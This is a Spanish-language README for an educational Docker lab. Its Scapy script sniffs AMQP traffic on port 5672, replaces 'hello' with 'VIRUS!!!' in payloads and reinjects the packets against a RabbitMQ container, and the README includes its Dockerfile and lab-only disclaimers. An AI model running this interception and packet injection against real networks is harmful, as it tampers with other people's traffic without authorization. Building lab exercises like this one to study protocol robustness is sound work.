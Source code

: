 # 🧃🐇 AMQP Packet Chaos con Scapy (SOLO FINES EDUCATIVOS)

🚨 **Disclaimer:**  
Este proyecto es **SOLO** con fines educativos para entender cómo interceptar/modificar/inyectar tráfico AMQP usando **Scapy**. NO lo uses en redes ajenas. Sé decente: solo en entorno de laboratorio.

## 📂 Estructura

```bash
├── docker-compose.yml
├── el_enviador/
│   ├── Dockerfile
│   ├── Insaneador.py
├── el_espameado/
│   ├── Dockerfile
│   ├── Insaneado.py
├── el_sniffer/
│   ├── Dockerfile
│   ├── modificador.py

```

## 🚀 Qué hace
- Levanta RabbitMQ con interfaz de gestión.
- `el_enviador` envía mensajes AMQP.
- `el_espameado` los recibe.
- `el_sniffer` intercepta paquetes AMQP (**puerto 5672**) con **Scapy**.
- Modifica payload (fuzzing básico).
- Reinyecta los paquetes alterados para ver si RabbitMQ explota o filtra.

## 🧃 modificador.py
from scapy.all import *

print("🧃 Sniffer MITM activo...")

from scapy.all import *

IFACE = "eth0"
FILTER = "tcp port 5672"

def fuzz(packet):
    if packet.haslayer(Raw):
        print(f"👀 ORIGINAL: {packet.summary()}")
        # Mini fuzz: reemplaza texto, o corrompe bits, tu delirio
        if b"hello" in packet[Raw].load:
            packet[Raw].load = packet[Raw].load.replace(b"hello", b"VIRUS!!!")
        send(packet)
        print(f"💥 MODIFICADO: {packet.summary()}")

print(f"🔥 Sniffing en {IFACE} filtrando {FILTER}")
sniff(iface=IFACE, filter=FILTER, prn=fuzz)


## 🧃 Dockerfile el_sniffer
FROM python:3.11-slim

RUN apt-get update && apt-get install -y tcpdump iproute2 iputils-ping && pip install scapy

WORKDIR /app
COPY modificador.py .
CMD ["python", "modificador.py"]

## 🧃 Disclaimer final
**SOLO LABORATORIO. SOLO PRUEBAS. NO A LAS ILEGALIDADES EXPLOSIVAS.**  
No hackees a la tía que vende empanadas. 🫠🐇💥
